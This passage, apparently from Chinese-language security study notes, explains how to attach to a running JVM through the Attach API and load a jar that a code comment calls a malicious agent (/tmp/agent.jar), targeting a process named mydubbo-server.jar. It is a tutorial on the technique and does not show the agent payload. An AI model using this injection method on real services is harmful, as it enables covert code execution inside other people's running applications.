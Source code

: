 ```

        System.out.println("ends");
    }
}
```

main函数单独放一个jar包，记得把主函数加上

![image-20220905145952872](image/image-20220905145952872.png)

如果是premain和agentmain的话就不用设置了

相当于是在一个进程里面进行注入，先运行一个jar包查看pid,然后将需要加入的jar包放在和运行jar包同一目录下执行就行

![image-20220905145549250](image/image-20220905145549250.png)

![image-20220905145544344](image/image-20220905145544344.png)



##### java agent后

```
package hack;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.util.List;

public class TestAgentMain {

    public static void main(String[] args) throws Exception {
        System.out.println("running JVM start ");
        List<VirtualMachineDescriptor> list = VirtualMachine.list();//获取所有jvm中运行的列表
        System.out.println(list);
        for (VirtualMachineDescriptor vmd : list) {

            System.out.println(vmd.displayName());
            if (vmd.displayName().endsWith("mydubbo-server.jar"))//寻找指定jar包 {
                System.out.println("helloworld");
                VirtualMachine virtualMachine = VirtualMachine.attach(vmd.id());//这里直接获取pid
                virtualMachine.loadAgent("/tmp/agent.jar");//load恶意agent
                virtualMachine.detach();
            }
        }
    }
}
```



##### Instrumentation

getAllLoadedClasses：获取所有已经加载的类。
